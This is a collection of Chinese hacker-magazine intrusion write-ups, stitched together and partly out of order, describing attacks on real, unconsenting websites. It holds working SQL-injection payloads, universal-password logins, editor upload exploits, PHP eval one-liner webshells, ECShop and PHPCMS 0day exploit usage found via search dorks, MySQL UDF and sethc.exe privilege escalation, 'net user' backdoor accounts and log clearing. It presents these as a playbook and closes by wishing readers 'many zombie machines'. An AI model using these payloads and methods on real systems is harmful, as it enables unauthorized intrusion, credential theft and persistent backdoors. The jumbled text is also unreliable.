看到这个，我们可以知道，后台管理员的用户名和密码所在的表名为 yonghu，用户名对应的列名为 yonghuname，密码对应的列名为 password。使用工具暴出的字段数为 2，第二个字段为字符型，所以我们构造语句：“http://news.XXX.org.cn/view.php?id=488/**/and/**/1=1/**/union/**/select/**/1,password%20from%20yonghu/* ”，不过提交后并没有暴出密码来，如图4。


使用“order by”来查看字段长度，构造语句“http://news.XXX.org.cn/view_news.php?id=1515%20order%20by%201”，改变数字值，得出字段长度为 14。进行字段匹配，构造语句：“http://news.XXX.org.cn/view.php?id=488%20%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14”……成功得到管理员用户名和密码，如图5。


我们到前台找一张图片并查看图片的地址，发现图片是存放在 download 目录下的，于是大马地址就为“http://news.XXX.org.cn/download/141265301821.php”，成功得到 webshell，如图9。


登录进入后台，发现了 FCKeditor，查看了一下版本：“http://news.XXX.org.cn/fckeditor/_whatsnew.html”，发现是可以利用的，具体方法如下，把以下代码：

```html
<form id="frmUpload" enctype="multipart/form-data" action="http://news.XXX.org.cn/FCKeditor/editor/filemanager/upload/php/upload.php?Type=Media" method="post">
  Upload a new file:<br>
  <input type="file" name="NewFile" size="50"><br>
  <input id="btnUpload" type="submit" value="Upload">
</form>
```

保存为 upload.html，打开并选择 php 大马上传，出现了如图6所示的界面。应该是管理员把 Media 目录删除了，所以未能利用成功。小菜我只有另找其他方法，继续查看后台，找到“图片录入”，如图7，直接上传 php 大马，上传成功了，查看“所有图片”界面，如图8所示。


因为实在不懂 Linux 系统，所以就没有再继续深入下去。记得一位大哥说过，工具可以提高生产力，但要增强技术，则需要自己动手。当然，最好的方法就是工具和手工相结合。（文章中涉及到的冰兰 PHP+MYSQL 注入器已经收录在了光盘中）

## 有菜鸟对DB2数据库的注入

### 一、前言

在本文开始之前，我先要说明一下：SQL Injecting 是一种通过脚本过滤不严的漏洞，利用 SQL 语言对关系型数据库操作的黑客技术……影响 SQLi 的不是脚本，而是后台所用的数据库，所以名字应该是 Access 注入、MSSQL 注入、MySQL 注入……

对于小菜们而言，比较熟悉的关系型数据库有 Access、MSSQL、MySQL，这三个数据库相信大家都已经玩遍了，但我却看到关于 DB2 数据库注入的文章在国内非常少，于是就有了本文。这次注入的是某医院 jsp 网站，希望大家能从本文中学习到一些新知识。

### 二、工具利用

“and 1=1”和“and 1=2”来判断，返回后的结果分别如图1、图2所示。


第二步就是确定后台数据库类型了。由于是 jsp 脚本，所以我们就先猜测一下是不是 Oracle，提交“and(select count(*) from dual)<>0”出错了，说明不是 Oracle 数据库（因为 dual 是 Oracle 的系统表）；不支持 /* 注释，说明也不是 MySQL 数据库；再提交“and exists(select * from sysobjects)”也出错了，说明也不是 MSSQL 数据库。于是我猜测是不是 DB2 或 Sybase，测试提交“and(select count(versionnumber) from sysibm.sysversions)<>0”，结果返回了正常的页面，说明是 DB2 数据库（sysibm.sysversions 是 DB2 的系统表），如图3。


Pangolin 是支持 DB2 数据库的，我们先使用它检测一下，回头再介绍手工注入。这里注意选数据库时要选上 DB2 和 Integer，一是可以加快速度，二是可以防止程序判断数据库出错，检测结果如图4、图5所示。

我们看到 TB_USER 表中的用户名和密码均未加密，接下来就是找后台了。同样使用 Pangolin 自带的扫描管理登录页工具 Administrator Page Discover（在 Tools 里面），“URL to begin”分别填写上网站的域名以及 .jsp，然后点击“Start”按钮即可，结果如图6所示。


网站后台目录是“/administrator/”，使用刚才跑出来的用户名和密码登录，成功进入了，如图7。jsp 程序普遍对上传过滤不严，我们进去后点击“添加图片”，就可以直接上传 jsp 木马了，如图8、图9。


这里注意目录信息“/home/yt/”，明显是 Linux 系统的服务器。我们常用的 jsp 木马 JFolder 不支持 Linux 系统（它只能列目录），而华夏猪头三修改版可以操作 Linux 目录文件。我对 Linux 系统不熟，只知道提权步骤是：查看内核版本→寻找对应版本的溢出漏洞→在 webshell 中编译执行→本机监听连接→加 rootkit……文章主要介绍 DB2 数据库的注入。

有主流关系型数据库语句（包括 Sybase、Informix 等），如图10。

| DBMS 语法项 | 示例 |
|---|---|
| ASCII Values | `select ascii('A') ...` |
| Casting | `SELECT cast(...)` |
| String Concatenation | `SELECT 'a' || 'b' ...` |
| If/Case/Time Delay | TODO / ??? |

图10

### 三、手工注入

- 1. 查看版本：`select versionnumber, version_timestamp from sysibm.sysversions;`
- 2. 当前用户：`select user from sysibm.sysdummy1;`
- 3. 列数据库：`select schemaname FROM syscat.schemata;`
- 4. 列表：`select name from sysibm.systables;`
- 5. 列字段：`select colname from syscat.columns where tabname='table_name';`

### 四、总结

本文思路比较简单：注入后台→上传 webshell，重点是注入数据库为 DB2。写出来是给大家提供一个模板来学习。

> （文中涉及到的 Pangolin 以及注入参考文件等，已经收录在了光盘中）


## Hill篇

我在 X 档案论坛的账户不能使用了……偶然发现自己的 IE 被劫持到了一个少儿不宜网站。随后对该站进行排查：搜索注入点、探测后台、查看可用目录等，最初都没有明显结果。

继续查看网页源文件后，发现该网站使用云起企业建站系统。进一步检索后，意外找到该系统可能存在 0day 漏洞，于是开始分析其后台 `login.asp` 文件。

```asp
if request.Form("submit")<>"" then
  if request.Form("userid")="" or request.Form("password")="" then
    response.Write("<script language=javascript>alert('用户名或者密码不能为空！');history.back();</script>")
    response.end
  end if

  set rs=conn.execute("select * from ... where uid='" & trim(request.form("userid")) & "' and pwd='" & trim(request.form("password")) & "'")
  if rs.eof then
    response.Write("<script language=javascript>alert('用户名或者密码验证失败');history.back();</script>")
    response.End()
  else
    ...
  end if
end if

session(strSession&"uid")=""
session(strSession&"uidn")=rs("id")
end if
response.Redirect("index.asp")
response.End()
end if
rs.close
set rs=nothing
end if
```

几个都不能使用，看样子服务器上安装有杀毒软件啊，好在我还有几个免杀的木马，如图3。


大家看到没有，只使用 trim 函数过滤了空格，这样一来就使得从客户端传递过来的数据直接带入数据库查询了，我们就可以使用 `or'1='1` 登录了。这都什么年代了，居然还会有这样的情况！再来看看进入后台后的上传文件，部分代码如下：

```html
<title>上传文件</title>
<link href="css.css" rel="stylesheet" type="text/css">
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
</head>
<body bgcolor="#eeeeee" text="#000000" leftmargin="0" topmargin="0" marginwidth="0" marginheight="0">
<form enctype="multipart/form-data" method="post" action="infopict.asp?fm=<%=request.QueryString("fm")%>&em=<%=request.QueryString("em")%>" name="form1">
<table width="100%" border="0" cellpadding="0" cellspacing="0">
<tr>
<td>
<table width="100%" border="0" cellspacing="0" cellpadding="0">
<tr>
```

| 组件/扩展 | 说明 |
|---|---|
| Scripting.FileSystemObject | 文件操作组件 |
| WScript.Shell | 命令执行组件 |
| ADODB.Stream | 数据流组件 |
| Persits.Upload.1 | 上传组件 |
| JMail.SmtpMail | 邮件组件 |
| CDO/CDONTS | 邮件发送组件 |

（图4：服务器支持组件探测结果）

在拿到 webshell 后，我个人习惯是先去看看都支持什么组件，因为这点很重要。如果没有相应组件，提权会麻烦很多。如图4，服务器没有把 WScript.Shell 组件删除掉，这下 cmd 可以用了。再看看服务器都开放了哪些端口，如图5。


3389 端口没有开放，看样子又得麻烦一下了。再来看看都有哪些文件夹可以写的，如图6。D 盘直接溢出（D 盘也可直接写文件），竟然敢这样诱惑我，真是不把你拿下来就太对不起天下广大小菜了，先来上传一个 cmd 再说。


找了很久还是没有看到上传类型的过滤代码，但是确实就是这个文件，这也就是说没有过滤任何文件了，可以直接传了。部分编辑器版本由原来的 eWebEditor 换为了 FCKeditor，后台做了安全验证，FCKeditor 利用不了，但是往往程序员却忽略了最重要的漏洞。

我们在 Google 中搜索关键字 “inurl:arti_show.asp?id=” 就可以找到许多使用这套系统的网站，它的后台地址为 “management/login.asp”，然后使用万能密码 `or'='or` 进行登录，在后台还可以直接上传文件。我们按着这个步骤来进行操作，轻易就来到了后台管理处……


接着我就直接在图片管理那里上传 ASP 木马，如图2，但上传了好几个都不能使用……

“net user”命令来看看系统中的用户，这么多呀：


cmd 竟然无法添加用户和开 3389，郁闷啊，难道我又要退回去慢慢研究吗？折腾了一整天的计算机，脑袋又晕又胀，看样子我得要休息了，就把这些烂摊子交给了我一个刚上线的哥们。

## 双面人篇

我刚刚上线，hii1 就说他拿到了一个 shell，但不知道要怎样拿下服务器，于是就交给了我分析。我分析这个服务器的端口时突然想起好像有一个 5631 端口，这个应该是 pcAnywhere 的默认端口，难道对方开了 pcAnywhere？如果是这样的话，那就便宜我们了，因为有 pcAnywhere 也就等于安了一个永远免杀的后门啊！

我提了提神，兴奋地盯着屏幕，使用 hii1 给的 cmd 来看看系统都运行了什么，发现已经启动了如下的 Windows 服务：


果然，一个 pcAnywhere Host Service 的服务出现在了我眼前，看样子这台服务器就要属于我们了，哈哈。打开 pcAnywhere 的默认目录看了看，这个默认目录可谓是 pcAnywhere 的硬伤啊，多少服务器都死在它身上。而那几个密码文件就好像美女一样出现在我的眼前，如图7。


我把密码文件下载了回来，拿着密码破解工具半天也不敢点，因为有些 pcAnywhere 版本的密码文件是破解不出来的，破解出来也是乱码。就比如我计算机上安装的 pcAnywhere 就是破解不出密码文件的，磨磨蹭蹭了老半天还是点击了“Get Password”，如图8。


哈哈，人品还是蛮好的嘛，密码破解出来了。打开本地的 pcAnywhere 快速联机连接上去，输入账号和密码，但是一个非常郁闷的事情出现了：这个服务竟然还要我去系统用户登录。难道是没有人登录，还是刚刚重启？怎么办呢，郁闷了老半天又返回到 shell 里面看看还有什么可以利用的。继续看了看系统用户，从里面挑选了一个看起来比较有可能的用户去试了试，账号和密码一样，没想到竟然就这样进来了，如图9。原来系统中还安装了瑞星啊，怪不得。


得到上传的木马都不怎么好用了。


图10

最后，我把这个登录账号提权，添加到了管理员组中。就这样，这个IP是美国的服务器就被我们拿下来了。当然我们的目的不是为了去破坏，而是在实践中去成长、去进步。服务器已经是我们的了，那就赶快回去修补漏洞吧。修改了一下上传功能，改得比较官方些就不会被人怀疑了，如图10。

好了，文章就是这样了。因为是碰到了0day，所以没有什么技术含量，老鸟见笑了，菜菜们要努力，祝大家肉鸡多多！

（文章中涉及到的PCAnywhere PassView，已经收藏在了光盘中）


## 细节决定成败
## ——追回入侵某六合彩网站

spea.TJ→飞

星期六的一个早晨，阳光明媚。吃过早饭后，和往常一样，我坐到电脑前，打开音乐，挂上QQ，进入空间偷菜。这时QQ一个抖动窗口出来了，咦，这不是老朱吗？自从上次学校分别后，就再也没有见过。好久不见，当然要先聊聊了。随后才知道，他的网站被人挂了黑链，并且还被挂了网页，于是就拜托我帮他清理一下，顺便补上漏洞，我随即就答应了。

说做就做，登录了服务器，分析着日志文件，很快就找到了漏洞所在。原来是一个编辑器的漏洞，从网上找到了补丁程序，很快就把漏洞补上了。但是可恶的“黑客”竟然挂马，网站也没有备份，只能一个个清理了，这可真是累倒了小菜我，最后花了两个小时才终于搞定。

看了看时间，已经是10:31了。活动了下手腕，起来走了走，但是想着老朱网站的事，心里越来越不甘心，咽不下这口气。于是决定检测一下那个挂马的网站，让他也尝尝对着电脑发呆的滋味。整理好挂马和黑链的资料，发现网址都是一个 `http://www.***.com/` 的六合彩网站挂的。像这样的骗子非法网站，更加激起了我搞定它的决心。

我右键查看了网站上图片的属性以及其它一些链接地址，想从中发现一些蛛丝马迹，但是没有得到什么敏感目录。整站也都是html和php的伪静态，想要从主站直接拿到webshell还是比较棘手的。于是我决定旁注其它站点，再从其它站点迂回拿下目标网站。有了这个整体思路后，就开始行动吧。

打开 `http://ip.wen.la/` 反查了一个域名，结果还不错，有几个域名。我选择了其中一个股票站作为旁注目标，因为该网站使用的是织梦模板，我比较熟悉。正好最近还出了几个织梦系统漏洞，可以测试一下，但结果都失败了。此时信心有些动摇了，但是想到那两小时对着电脑发呆的滋味，这一点痛苦算什么呢，加油！

来测试一下是否为织梦系统的默认管理目录，在地址栏输入 `http://www.***.com/dede/`，结果还是令我不愉快。既然如此，那就社工一下，把域名名字改成管理目录来试一下，在地址栏输入 `http://www.***.com/***/`，哈哈，出现了管理界面，好熟悉的面孔，还真有点儿亲切的感觉，瞬间我的心情提升了许多！输入默认的用户名和密码admin，但是那令人厌烦的对话框弹出了错误信息。又试了试用域名作为密码，但同样还是出现错误。心情又一下子回到了谷底。正当我快要放弃的时候，眼神一动，发现了是织梦V5.5版本，如图1。突然想到了去年那个上传漏洞。是的呀，怎么把这个给忘记了。但是要想利用这个漏洞就需要 `register_globals=on`。既然有了这一丝希望，那我们就要碰碰运气。哈哈，人品爆发，成功拿到了shell（详细的利用方法在去年12期杂志的“DEDECMS最新0day漏洞”一文中有详细介绍），如图2。


图1

接下来就是提权服务器，搞定目标网站了。在Shell下查看了服务器环境，发现所有盘都不可以访问，CMD也不可以执行命令，上传了一个cmd.exe也不行，看来权限设置得真是超级BT。想到是织梦系统，使用的是MYSQL数据库，会不会是root权限呢？如果是root权限的话，就可以考虑写入启动项和udf.dll提权了。于是我就翻找着数据库连接文件……

程序连接文件是 `data/common.inc.php`，哇，人品再度爆发，还真的是root连接的，如图3。

……出现“already exists”的错误提示，如图4。其实是已经存在udf.dll这个文件，可能是前辈已经来此玩过了。我把导出文件名改为了udf1.dll后，成功导出了，如图5。


图2


图3


图4


图5

于是我就上传了 `su.php`，准备导出 `udf.dll` 提权，但是导出的时候出现了“导出DLL文件出错：File 'C:\Windows\udf.dll' already exists”的错误提示……

输入 `create function cmdshell returns string soname 'udf1.dll'` 来创建一个函数，提示“Can't open shared library 'udf.dll' (errno: 0)”……后来改为创建 `MyCmd` 函数，尝试添加账户（`net user admin 123456 /add`），但又出现SQL语句错误、对象不存在等问题，最后放弃该方法。


图6


图7

我又想到了利用 `mix.dll` 反弹shell来提权，但是该方法容易导致MYSQL假死或挂掉，于是改用shell自带执行SQL的功能，填入账户、密码和数据库后成功连接，如图7，然后依次执行：

```sql
create table mix_cmd(shift longblob);
insert into mix_cmd values(load_file('c:\windows\system32\cmd.exe'));
select * from mix_cmd into dumpfile 'c:\windows\system32\...rem32\\sethc.exe'; // 把cmd.exe放到sethc.exe位置...
drop table if exists mix_cmd; // 删除表mix_cmd...
```

伪了一下，随便找了个盘放进去，又留了个文件上去，如图11。OK，最后擦擦屁股走人。


好了，我们打开Windows自带的远程桌面连接，连接上对方服务器，然后敲击5下Shift键，成功弹出了CMD……输入“net user admin 123456 /add”“net localgroup administrators admin /add”……如图10。

这篇文章只是提供给大家一个个人入侵检测的思路，因为方法是死的，人是活的……细节才是决定成功的关键所在！

> （文章中涉及到的su.php以及免杀的udf.dll，已经收录在了光盘中）

## 对X站艺人的Web的一次入侵

菲&王兴东

这天在整理资料的时候看见了以前没有搞下的一个网站……注入点是：`http://www.hxxxxx.com/stars/show.php?id=65`，分别在注入点后面添加 `order by 15/*` ……由此可确定字段数为16……

```sql
and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16/*
and 1=2 union select 1,user(),3,4,5,6,database(),8,9,10,11,12,13,14,15,16/*
```


`470642F636F6E662F68747470642E636F6E66...`，`load_file()` 函数的作用就是读取文件，而 `0x2F6574632F68747470642F636F6E662F68747470642E636F6E66` 是 `/etc/httpd/conf/httpd.conf` 的16进制码，`/etc/httpd/conf/httpd.conf` 是Apache的配置文件，执行结果如图3所示。


读取成功了，通过读取出的信息找到了web路径为 `/www/xxstart/www`。既然路径已经知道了，那么就剩下写一句话木马了。提交  
`and 1=2 union select 1,char(...),3,4,5,6,7,8,9,10,11,12,13,14,15,16 from mysql.user into outfile '/www/xxstart/www/123.php'/*`，返回了错误，如图4。


写shell失败了，郁闷呀。看来是没有写入权限，网站后台也没有找到，看来后台拿shell也行不通了。只能旁注一下了。经过查看，发现这个服务器上还有一个Discuz! 6.0论坛，那就使用root这个点来跨库查询一下这个论坛管理员的后台密码吧，然后再看看能不能拿shell。提交：  
`and 1=2 union select 1,group_concat(schema_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16 from information_schema.schemata limit 0,1/*`，这句就是爆出所有数据库名，如图5。

所有数据库名，如图5。


然后就是一个一个更换库名测试了，最后确定 `chinaui_member` 就为论坛数据库，提交：  
`and 1=2 union select 1,group_concat(table_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16 from information_schema.tables where table_schema=0x68627374617273 limit 0,1/*`，这句就是爆出 `chinaui_member` 数据库里所有表名，如图6。


还是一个表一个表地去试，最后确定保存管理员密码信息的表是 `cdb_members`，提交：  
`and 1=2 union select 1,group_concat(column_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16 from information_schema.columns where table_name=0x6364625F6D656D62657273 limit 0,1/*`，字段就全部爆出来了，如图7。


有 `username` 和 `password` 字段，接下来就是爆用户名和密码了。我们先到论坛找出管理员的名字，如图8，用户名为“Apple”，就来爆这个管理员吧，提交：  
`and 1=2 union select 1,concat(username,0x3a,password),3,4,5,6,7,8,9,10,11,12,13,14,15,16 from chinaui_member.cdb_members where username='Apple'`，如图9所示，成功爆出了MD5散列。


拿到cmd5.com网站上破解成功，然后再使用破解出来的密码登录论坛。登录后点击系统设置，这时候也有密码验证，再填写刚才破解出来的密码就可以了，如图10。登录成功后，在“论坛管理”栏目下有“界面风格”，如图11。


图10


图11

我们增加一个模板，然后点击提交，如图12；然后点击详情，如图13；再把一句话木马写到“新增”那儿，如图14。因为正常的一句话木马会被过滤掉 `<>`，所以我给出一个变形后的一句话木马 `<strong>'!;80VUL');EVAL($_POST[RINGD]);//</strong>`，最后点击提交。这样一句话木马就写进去了，添加模板成功后就会生成一个 `style_x.php` 文件，x就是生成的ID，如图15。


图12


图13


图14


图15

图中ID是8，那么我们的一句话木马就是 `style_8.php`，使用客户端连接，成功拿到了这个站点的shell，如图16。

来试试能不能跳到演艺公司的网站，RP不错，可以跳转。如图17，往演艺公司的网站传了个大马后就闪人了。就这样拿下了目标网站，如图18。到此结束，最后感谢孤水绕城和Micker在本次检测中的技术支持。


图16


图17


图18

> （文章中涉及到的php一句话连接端，已经收录在了光盘中）

## webshell别跑
## 看我ECShop SQL注入0day

txcbf

昨天晚上朋友告诉我说ECShop出了新漏洞，我连忙打开电脑到网上查了一下。该漏洞的发现者是80vul的ryat，ryat并没有给出详细的漏洞分析，只是简单公布出了一个漏洞利用程序。我打开ECShop官方网站下载了最新版的 `ECShop_V2.7.2_GBK_Release0505` 程序，从程序名字可以看出这是今年5月5日更新的。我在虚拟机里使用AppServ把ECShop安装好，但测试漏洞利用程序时却失败了。本以为ryat给出的程序有问题想放弃，但还是忍不住从网上搜索了一些网站来测试，没想到测试第一个时就成功了，接着我又连续测试了十几个使用了ECShop的网站，其中六七个都成功了，成功率相当高。

登录存在漏洞的网站后台，发现ECShop版本显示的是 `v2.7.2 RELEASE 20100505`，看来最新版本也存在这个漏洞啊。我又在另一个虚拟机中手动搭建的PHP环境下安装了 `ECShop_V2.7.2_GBK_Release0505` 版，测试漏洞利用程序时又成功了。由此可以确认最新的 `ECShop_V2.7.2_GBK_Release0505` 版也存在这个漏洞，只不过漏洞能否成功利用跟网站具体的PHP环境有关。

### 一、漏洞的简单分析

ECShop是一款开源免费的网站商店系统，使用这套网店系统的网站有很多。其实ECShop的安全性还是很不错的，记得上一次出漏洞还是在09年的4月，算是已经很久没有出漏洞了。不过还是那句老话：没有绝对的安全，这不又出漏洞了。该漏洞可以影响包括最新版在内的所有版本，截至本文完成时（5月18日），官方仍没有公布补丁程序。

由于该漏洞的发现者ryat并没有公布漏洞细节，而我对于PHP又不怎么精通，因此也就无法给大家分析这个漏洞产生的原因了。对于那些感兴趣的朋友，可以根据给出的漏洞利用程序来进行分析。另外ryat也给出了一篇和这个漏洞原理相同的分析文章，具体地址为：`http://www.80vul.com/pch/pch-005.txt`，有兴趣的朋友可以看一下。

### 二、漏洞利用

我把ryat给出的漏洞测试程序保存为了 `ecshopexp.php`。要想执行这个 `ecshopexp.php` 程序，需要我们的电脑中安装了PHP才行。我使用的是AppServ套件里的PHP，路径为 `C:\AppServ\php5\`，把 `ecshopexp.php` 复制到 `C:\AppServ\php5\` 目录下，然后打开CMD命令提示符并切换到该目录下，直接输入 `php ecshopexp.php` 就可以看到漏洞测试程序的使用说明了，如图1。


图1

```bash
php ecshopexp.php host path
```

程序的使用格式为 `php ecshopexp.php host path`，其中host为安装目标网站的域名或IP地址，path为ECShop的安装路径。如果是安装在网站根目录下，那么path就使用 `/`。

我搜索“Powered by ECShop v2.7.2”后找到了一个存在这个漏洞的网站 `http://www.xx118.com`，ECShop安装在网站根目录下。我们直接输入 `php ecshopexp.php www.xx118.com /` 执行，就爆出了管理员用户名admin以及密码 `7fef6171469e80d32c0559f88b377245`，如图2。

```bash
php ecshopexp.php www.xx118.com /
```


图2

`7fef6171469e80d32c0559f88b377245` 是密码经过MD5加密后的32位数值，拿到cmd5等在线破解网站破解出密码为 `admin888`。ECShop后台默认目录是 `admin`，我们直接在网址后面加上 `admin` 就打开了 `http://www.xx118.com/admin/privilege.php?act=login` 的登录页面，使用得到的用户名和密码成功登录进了后台，如图3。


图3


图4

在ECShop后台获得webshell非常简单，我们选择“模板管理”下的“库项目管理”，然后在“请选择一个库项目”的下拉列表中选择“myship.lib - 配送方式”，就打开了myship.lib的编辑页面。

来到代码的最下面，插入 `php` 一句话木马的服务端代码 `<?php eval($_POST[c]);?>`。如图4，点击“确定”按钮后会提示“库项目内容已经更新成功。”这就说明 `php` 一句话木马已经写进去了。使用 lanker 一句话 PHP 后门客户端来连接 `http://www.xx118.com/myship.php`，就成功获得了 webshell，如图5。最后我们再使用 `php` 一句话木马另外传个 webshell 上去，然后恢复 myship.lib 文件，清理完日志就可以走人了。


### 三、另一个漏洞利用方法

ryat 给出的漏洞利用程序是 php 版的；虽然可以使用，但需要安装 php 才行，有些不方便。我使用抓包工具 commview 对这个 php 版程序爆管理员用户名和密码的过程进行了抓包，抓到的数据如下：

```text
search.php?encode=YToxOntzOjQ6ImF0...Q9j2FsbCcgTEINSVQgMSksIDEjIjtpOjE7fX0=（长串省略）

http://www.xx118.com/search.php?encode=YToxOntzOjQ6ImF0...Q9j2FsbCcgTEINSVQgMSksIDEjIjtpOjE7fX0=（长串省略）
```

结果如图6所示。在错误信息中爆出了管理员的用户名和密码，这真是令人兴奋啊！


这样的话，我们要想利用这个漏洞时，只需要在 ECShop 的网址后面添加 `search.php?encode=...` 即可了，不必非得使用那个 php 版的漏洞利用程序。其实这个测试程序的作用就是爆出管理员的用户名和密码，我们访问这个特定的 URL 就可以达到相同的效果了。考虑到 `encode=` 后面的代码太长了，手工抄写太麻烦也很容易出错，于是我就把这段代码保存在了 exp.txt 文件中，以方便大家使用。

### 四、简单总结

ECShop 的这个 SQL 注入 0day 利用起来非常简单，但危害也非常大，几乎只要破解出了密码就可以获得 webshell。我在网上测试了一下，起码有一半以上安装 ECShop 的网站存在这个漏洞。关于漏洞的修补，由于官方还没有给出补丁程序，因此可以增加密码的复杂程度，让漏洞利用者即使得到了密码的 MD5 值也破解不出来，当然更好的修补方法还是等官方出了补丁程序后再及时修复吧！

> （文章中涉及到的 ECShop_V2.7.2_GBK_Release0505、ecshopexp.php、exp.txt，已经收录在了光盘中）


PHPCMS 是国内著名的网站内容管理系统，目前其最新版为 PHPCMS2008 SP3。这两天在网上看到 my5t3ry 公布出了一个关于 PHPCMS2008 SP3 的注入 0day 并给出了一个漏洞利用程序，据说官方的最新 PHPCMS2008 SP3 20100402 版也受这个漏洞的影响，截止到本文完成时官方还没有给出补丁程序。

### 一、漏洞的利用方法

一个人的战争。查看漏洞利用程序的代码，好像是“/yp”目录下的 product.php 存在了盲注漏洞。我们直接来看漏洞的利用方法，my5t3ry 公布出了两个漏洞测试程序，由于程序的代码比较长，我就不贴出代码了，我把它们分别保存为了 phpcmsexp1.php 以及 phpcmsexp2.php。在使用过程中发现 phpcmsexp2.php 要比 phpcmsexp1.php 好用，所以我就暂时使用 phpcmsexp2.php 来给大家演示漏洞的详细利用了。

我从官方网站下载了最新的 phpcms2008sp3_gbk_100402 版，使用 AppServ 套件把程序架设了起来，网站的访问地址为“http://127.0.0.1/phpcms/”，如图1。


下面来看漏洞测试程序的使用方法，因为 my5t3ry 给出的测试程序是 php 版的，因此我们需要在电脑中安装 php，我使用的是 AppServ 套件里的 php5，具体目录为“C:\AppServ\php5”，把 phpcmsexp2.php 保存到“C:\AppServ\php5”目录下，然后打开 CMD 命令提示符并切换到该目录下，直接输入 **php phpcmsexp2.php** 执行就可以看到测试程序的使用说明了，如图2。


```text
php phpcmsexp2.php <hostname> <path>
```

程序的使用格式为“php phpcmsexp2.php <hostname> <path>”，其中第一个 php 代表 php.exe，phpcmsexp2.php 就是漏洞测试程序的文件名，hostname 是 web 服务器的 IP 地址或网站域名，而 path 则是 PHPCMS2008 SP3 的“企业黄页”模块的目录。如果 PHPCMS 是安装在网站根目录下的，那么就是“/yp”，比如我在虚拟机里的 PHPCMS 是安装在 phpcms 目录下的，因此 path 就是“/phpcms/yp”。

接下来我们就使用测试程序对虚拟机里的 PHPCMS 尝试进行攻击，直接输入 **php phpcmsexp2.php 127.0.0.1 /phpcms/yp**，执行后的结果如图3所示。


看到“prefix: phpcms_”就说明漏洞可以利用，并且 PHPCMS 安装时的数据库名称为 phpcms，“username length:”后面光标会不停地闪动，这是正在猜测管理员用户名的长度。由于这个注入是盲注，猜解过程会比较慢，过了大约一分钟，猜到用户名的长度为 6，然后就开始猜解具体的用户名了，如图4。

不管是用户名长度、用户名还是密码，都是一位一位猜测的，所以我们看到的就是字符一个一个地往外蹦，并且蹦的速度非常慢，一分钟能猜两个字符就算很不错了，好在是让电脑猜，我们可以同时去做别的事情。如图5所示是在我的虚拟机中猜了 10 分钟后的进度：密码总共 32 位，看起来还得猜一段时间啊。


在经过了总共 37 分钟的猜解后终于猜完了，时间可真够长啊，如图6。猜解出的用户名为 phpcms，密码为 5c177635077e9e0a4a5f7cb4dbc96937，我们把密码拿到 CMD5 等在线破解网站进行破解，结果顺利地破解出了密码为 phpcms。关于 PHPCMS 的后台管理地址，我们直接在网站地址后面添加上 admin.php，也就是“http://127.0.0.1/phpcms/admin.php”。

就打开了后台登录页面，使用猜解出的用户名和密码成功地登录进入了后台，如图7。进入后台拿 webshell 的方法就比较简单了，我会在下文中进行介绍。


图6


图7

### 二、改进漏洞利用程序

使用 my5t3ry 给出的漏洞利用程序虽然可以猜解出管理员的用户名和密码，但漫长的猜解时间却实在是让人无法忍受……使用记事本打开漏洞利用程序 phpcmsexp2.php，发现了如下的代码：

```php
switch($chs){
  case 1:
    $query="1=1 and if((ascii(substring((select username from `$prefix_member` where groupid=1 limit 0,1),$pos,1))={$chr}),benchmark(10000000,md5(1)),1)#";
    break;
  case 2:
    $query="1=1 and if((ascii(substring((select password from `$prefix_member` where groupid=1 limit 0,1),$pos,1))={$chr}),benchmark(10000000,md5(1)),1)#";
    break;
  case 3:
    ...
}
```

```php
case 3:
$query = "1=1 and if((length((select user_name from `$prefix_member` where groupid=1 limit 0,1))={$pos}),benchmark(10000000,md5(1)),1)#";
break;
```

虽然我不太精通 PHP 程序，但也大概知道以上代码是让 mysql 服务器执行了 10000000 次的 md5 计算……把代码中的三个 10000000 都改为 1000000……用了 4 分钟就完成了整个猜解过程，如图8。

可能有朋友会说，如果继续减少 md5 计算的次数是不是猜解的速度会更快呢？我也尝试了再去掉一个 0……不到 5 分钟就猜解完一个网站，这个时间还是完全可以接受的。

## 三、实战拿网站 webshell


图8


图9


图10

以前我经常是在虚拟机里来演示拿 webshell 的过程，有的朋友可能会说，你的环境太理想了，那么今天我就到网上来找一个网站，进行演示拿 webshell 的过程。通过搜索“Powered by Phpcms 2008 2006---2009”找到了一个存在漏洞的网站，网站地址为“http://www.nbxxx.com.cn/”（我使用 xxx 代替了网址中的 3 个字符），执行 `php exp2.php www.nbxxx.com.cn /yp` 后成功地猜测出了用户名和密码，如图9。

密码也顺利地破解出来了，为 88218821，使用得到的用户名和密码成功地登录了后台，如图10。进入了后台就该拿 webshell 了，点击“模板风格”，然后选择“phpcms”下的“新建模板”，模板名称就写 `<?php eval($_POST[x]);?>`，模板路径可以随便填写，我填写的是 123，模板内容也可以随便填写，我还是填写了 123，点击“保存”，如图11。

接着点击“系统设置”－“系统工具”－“木马扫描”－“扫描木马”，来到了如图12所示的扫描网页木马的地方，点击“开始扫描”按钮进行扫描，结果扫描出了插入我们一句话 php 木马代码的“templates/default/phpcms/name.inc.php”，如图13所示。


图11


图12


图13


图14

点击“操作”选项下的“查看”按钮，就打开了 `templates/default/phpcms/name.inc.php`，并且是可以直接修改文件代码的，我们把文件中的代码复制到一个文件中，以方便过会儿恢复，清空所有的代码，然后把一句话 php 木马的代码 `<?php eval($_POST[x]);?>` 复制进去，点击“修改”按钮进行保存，如图14，然后使用 lanker 一句话 PHP 后门客户端 3.0 内部版连接“http://www.nbxxx.com.cn/templates/default/phpcms/name.inc.php”，就成功得到了 webshell，如图15。


图15

最后再通过这个一句话木马上传一个别的 webshell 上去，恢复“templates/default/phpcms/name.inc.php”原来的内容，删除新建立的模板，清理完日志后就可以走人了。

### 四、简单总结

本文介绍了 PHPCMS2008 SP3 注入 0day 的详细利用过程，并对漏洞利用程序进行了少许的改进，当然由于我不怎么精通 php 语言，所以只能简单地改几个数字，如果大家有更好的改进方法也欢迎写出来分享。只要能登录进入后台，那么拿 webshell 就很简单了，当然关键是要能破解出管理员的密码。PHPCMS2008 有 SP1、SP2、SP3 三个版本，但只有 SP3 版本才存在这个漏洞，在网站最下方的版权处默认是不显示 SP 几的，但我发现在后台登录页面的用户名输入框上面会显示，大家可以留意一下。

（文章中涉及到的 phpcmsexp1.php、phpcmsexp2.php、exp2.php，已经收录在了光盘中）

## CuteEditor编辑器0day

### 轻松批量拿shell

lan3a&hx小龙

